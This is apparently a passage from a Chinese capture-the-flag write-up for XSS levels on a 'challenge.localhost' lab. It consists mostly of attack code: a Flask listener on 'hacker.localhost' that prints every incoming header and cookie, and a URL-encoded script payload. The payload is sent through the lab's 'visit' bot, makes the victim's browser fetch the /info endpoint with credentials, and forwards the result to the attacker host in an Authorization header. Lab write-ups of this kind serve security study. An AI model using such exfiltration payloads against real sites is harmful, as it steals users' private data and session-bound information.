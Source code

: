 ```python
    if request.method == 'POST' or request.method == 'GET':
        # 打印所有请求头
        headers = request.headers
        for header, value in headers.items():
            print(f'{header}: {value}')
        
        # 获取并打印所有 Cookie
        cookies = request.cookies
        print(f"cookie:{cookies}")
        for cookie, value in cookies.items():
            print(f'{cookie}: {value}')
        
        response = make_response()
        return add_cors_headers(response)
    else:
        response = make_response("Unsupported method")
        return add_cors_headers(response)

if __name__ == '__main__':
    app.secret_key = "test"
    app.run(host="hacker.localhost", port=81)

```


发送请求：
```python
echo = "%3Cscript%3E%20%20%20%20%20fetch('http%3A%2F%2Fchallenge.localhost%2Finfo'%2C%20%7B%20%20%20%20%20%20%20%20%20method%3A%20'GET'%2C%20%20%20%20%20%20%20%20%20credentials%3A%20'include'%20%20%20%20%20%7D)%20%20%20%20%20.then(response%20%3D%3E%20%7B%20%20%20%20%20%20%20%20%20if%20(!response.ok)%20%7B%20%20%20%20%20%20%20%20%20%20%20%20%20throw%20new%20Error('Network%20response%20was%20not%20ok')%3B%20%20%20%20%20%20%20%20%20%7D%20%20%20%20%20%20%20%20%20return%20response.text()%3B%20%20%20%20%20%7D)%20%20%20%20%20.then(data%20%3D%3E%20%7B%20%20%20%20%20%20%20%20%20console.log('Info%20response%3A'%2C%20data)%3B%20%20%20%20%20%20%20%20%20return%20fetch('http%3A%2F%2Fhacker.localhost%3A81'%2C%20%7B%20%20%20%20%20%20%20%20%20%20%20%20%20method%3A%20'GET'%2C%20%20%20%20%20%20%20%20%20%20%20%20%20credentials%3A%20'include'%2C%20%20%20%20%20%20%20%20%20%20%20%20%20headers%3A%20%7B%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22Authorization%22%3A%20data%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%2C%20%20%20%20%20%20%20%20%20%7D)%3B%20%20%20%20%20%7D)%20%20%20%20%20.then(response%20%3D%3E%20%7B%20%20%20%20%20%20%20%20%20if%20(!response.ok)%20%7B%20%20%20%20%20%20%20%20%20%20%20%20%20throw%20new%20Error('Network%20response%20was%20not%20ok')%3B%20%20%20%20%20%20%20%20%20%7D%20%20%20%20%20%20%20%20%20return%20response.json()%3B%20%20%20%20%20%7D)%20%20%20%20%20.then(data%20%3D%3E%20%7B%20%20%20%20%20%20%20%20%20console.log('Post%20response%3A'%2C%20data)%3B%20%20%20%20%20%7D)%20%20%20%20%20.catch(error%20%3D%3E%20%7B%20%20%20%20%20%20%20%20%20console.error('Error%3A'%2C%20error)%3B%20%20%20%20%20%7D)%3B%20%3C%2Fscript%3E"
response = requests.get(f'http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo={echo}')
print(response.text)
```

## level14

在上一关中，第二种方法就是这一关的解决方案。不需要获取到cookie，直接让浏览器请求info接口，然后将响应附加在自定义头中传递给hacker服务器就行。
